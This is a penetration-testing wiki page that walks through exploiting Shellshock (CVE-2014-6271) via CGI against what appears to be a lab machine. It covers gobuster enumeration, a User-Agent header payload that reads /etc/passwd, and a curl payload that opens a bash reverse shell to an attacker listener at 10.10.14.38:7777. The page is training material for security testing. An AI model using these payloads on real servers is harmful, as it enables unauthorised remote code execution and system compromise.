 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# CVE-2014-6271 - Shellshock via CGI

GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors involving the ForceCommand feature in OpenSSH sshd, the mod\_cgi and mod\_cgid modules in the Apache HTTP Server, scripts executed by unspecified DHCP clients, and other situations in which setting the environment occurs across a privilege boundary from Bash execution, aka "ShellShock."

NOTE: the original fix for this issue was incorrect; CVE-2014-7169 has been assigned to cover the vulnerability that is still present after the incorrect fix.

{% hint style="info" %}
## NIST NVD

[https://nvd.nist.gov/vuln/detail/CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
{% endhint %}

## Shellshock via CGI

The Shellshock vulnerability allows an attacker to exploit old versions of Bash that save environment variables incorrectly. Typically when saving a function as a variable, the shell function will stop where it is defined to end by the creator.

Vulnerable versions of Bash will allow an attacker to execute operating system commands that are included after a function stored inside an environment variable. Let's look at a simple example where we define an environment variable and include a malicious command afterward.

## Enumeration

### Manual Enumeration

```bash
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

When the above variable is assigned, Bash will interpret the `y='() { :;};'` portion as a function definition for a variable `y`. The function does nothing but returns an exit code `0`, but when it is imported, it will execute the command `echo vulnerable-shellshock` if the version of Bash is vulnerable.

This (or any other command, such as a reverse shell one-liner) will be run in the context of the web server user. Most of the time, this will be a user such as `www-data`, and we will have access to the system but still need to escalate privileges. Occasionally we will get really lucky and gain access as the `root` user if the web server is running in an elevated context.

If the system is not vulnerable, only `"not vulnerable"` will be printed.

### Gobuster

We can hunt for CGI scripts using a tool such as [gobuster.md](../../../../toolbox/tooling/information-gathering/gobuster.md "mention"). Here we find one, `access.cgi`.

{% code title="Command" %}
```bash
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```
{% endcode %}

{% code title="Output" %}
```shell-session
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.204.231/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
2023/03/23 09:26:04 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
                                             
===============================================================
2023/03/23 09:26:29 Finished
```
{% endcode %}

Next, we can cURL the script and notice that nothing is output to us, so perhaps it is a defunct script but still worth exploring further.

{% code title="Command" %}
```bash
curl -i http://10.129.204.231/cgi-bin/access.cgi
```
{% endcode %}

{% code title="Output" %}
```
HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```
{% endcode %}

## **Confirming the Vulnerability**

To check for the vulnerability, we can use a simple `cURL` command or use [burp-suite.md](../../../../toolbox/tooling/web-application-analysis/burp-suite.md "mention") Repeater or Intruder to fuzz the user-agent field. Here we can see that the contents of the `/etc/passwd` file are returned to us, thus confirming the vulnerability via the user-agent field.

{% code overflow="wrap" %}
```bash
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```
{% endcode %}

## **Exploitation to Reverse Shell Access**

Once the vulnerability has been confirmed, we can obtain reverse shell access in many ways. In this example, we use a simple Bash one-liner and get a callback on our [netcat.md](../../../../toolbox/tooling/post-exploitation/netcat.md "mention") listener.

```bash
sudo nc -lvnp 7777
```

{% code overflow="wrap" %}
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```
{% endcode %}
